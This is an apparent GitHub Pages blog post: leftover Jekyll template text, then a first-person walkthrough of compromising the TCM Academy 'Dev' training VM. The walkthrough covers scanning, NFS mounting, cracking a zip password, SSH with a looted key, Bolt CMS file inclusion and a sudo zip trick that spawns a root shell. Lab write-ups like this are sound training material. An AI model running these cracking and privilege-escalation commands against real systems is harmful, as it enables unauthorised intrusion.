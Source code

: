 ## Welcome to GitHub Pages

You can use the [editor on GitHub](https://github.com/TheMaster-2/EthicalHackingWriteUps/edit/gh-pages/index.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

Test

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [Basic writing and formatting syntax](https://docs.github.com/en/github/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/TheMaster-2/EthicalHackingWriteUps/settings/pages). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

Machine 1
Dev by TCM Academy

This is my first write up

This Vulnerable by design VM is provided by TCM Acamdemy as part of the Practical Ethical Hacking - The Complete Course

I had to change Network cards to NAT, also for some reason this VM was dual honed, however, this is not relevant for this VM. 

Nnce VM booted, I had to log in and run (creds are provided in a text file byt TCM)
```markdown
DHClient
```


Then run Netdiscover to get target IP, for me.
```markdown
sudo netdiscover -r 192.168.22.0/24
```
We find our target VM
192.168.22.136
Next step is to run NMAP
```markdown
sudo nmap -A -p- -T4 192.168.22.136
```

![image](https://user-images.githubusercontent.com/66864342/160243024-f237bfba-81e5-4266-8bd8-12e3805577fa.png)
![image](https://user-images.githubusercontent.com/66864342/160243035-fb8b2c2a-664a-43e4-8244-7aba436d9488.png)

Interesting ports and info
- 22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
- _http-server-header: Apache/2.4.38 (Debian)
- _http-title: Bolt - Installation error
- 111/tcp   open  rpcbind  2-4 (RPC #100000)
- 2049/tcp  open  nfs_acl  3 (RPC #100227)
- 8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
-	_http-server-header: Apache/2.4.38 (Debian)
-	_Methods supported:CONNECTION
-	_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
-
- Running: Linux 4.X|5.X
- OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
- OS details: Linux 4.15 - 5.6
- Network Distance: 1 hop
- Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel!

Browse to port http://192.168.22.136:80
Default webpage bolt installation error?

![image](https://user-images.githubusercontent.com/66864342/160243232-38f450e6-66ee-4140-946f-4cf00e9c9f08.png)


Browse to http://192.168.22.136:8080
Discovered PHP settings


![image](https://user-images.githubusercontent.com/66864342/160243472-26a386e7-8ee1-4766-9c42-a8b12c983547.png)


Ran FFUF to parse web folders in two tabs
```markdown
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ http://192.168.22.136/FUZZ
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ http://192.168.22.136:8080/FUZZ
```

So now I checked NFS
```markdown
Showmount -e 192.168.22.136 for nfs
```

mkdir in mnt i called it nfs
```markdown
cd mnt
mkdir nfs
sudo mount -t nfs 192.168.22.136:/srv/nfs /mnt/nfs -o nolock
```

In nfs folder we find a file called save.zip


![image](https://user-images.githubusercontent.com/66864342/160244210-cb28624a-b755-4284-8f4d-2ebd4efa4ec8.png)


However the file is password protected. so lets try fcrack!
```markdown
Fcrack -v -u -D -p /usr/share/wordlists/rockyou.txt
```

info
-v=verbose -u=unzip -D=dictionary -p=file


password is java101

We extract 2 file

![image](https://user-images.githubusercontent.com/66864342/160245066-0cf3a05e-29cc-4093-b373-11ca7aaca0b5.png)


Ok so then I cat both files

![image](https://user-images.githubusercontent.com/66864342/160245036-adf5e998-18cb-40ca-a990-ea3f22476fa8.png)

the id_rsa is a certificate file


Discovered the following web folders


![image](https://user-images.githubusercontent.com/66864342/160243845-7911f7ae-a700-4cbd-991a-4e48fd81a3cb.png)


Opened config.yaml and we Find a username & password


![image](https://user-images.githubusercontent.com/66864342/160244148-5dcb3f37-b215-47f1-9b77-6e9fafc0847c.png)



Back to port 80 and see what bolt is...
After Googling, it seems to be a CMS, I also find an exploit for a local file inclusion
https://www.exploit-db.com/exploits/48411


![image](https://user-images.githubusercontent.com/66864342/160244458-e91cdcf8-2f4c-4af6-a7f5-ccf99d837cba.png)

Run the exploit after registering and account

![image](https://user-images.githubusercontent.com/66864342/160244777-797f3760-e6d2-49ec-8f19-708e976adc1a.png)



![image](https://user-images.githubusercontent.com/66864342/160244472-ad6caaa5-1ec9-4a8f-8411-53bf70e56edf.png)


The one of interest to us is the user 1000 permission futher down the list

jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash


![image](https://user-images.githubusercontent.com/66864342/160244492-f39e6c95-d357-4250-a950-21da05052723.png)

Ok so now lets try logging in as jeanpaul with a password (this didnt work, so used SSH -i id_rsa - I also had to change permission on file to 400

```markdown
ssh -i id_rsa jeanpaul@192.168.22.136
```

```markdown
sudo -l
```
   (root) NOPASSWD: /usr/bin/zip
   
So the above means we can run zip as root

So goto GTFOBINS
https://gtfobins.github.io/

search for ZIP, and get the sudo one

type commands one line at a time
```markdown
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

![image](https://user-images.githubusercontent.com/66864342/160245568-96c1fe61-2516-4811-b792-0358998ad105.png)



BOOM JOB DONE!







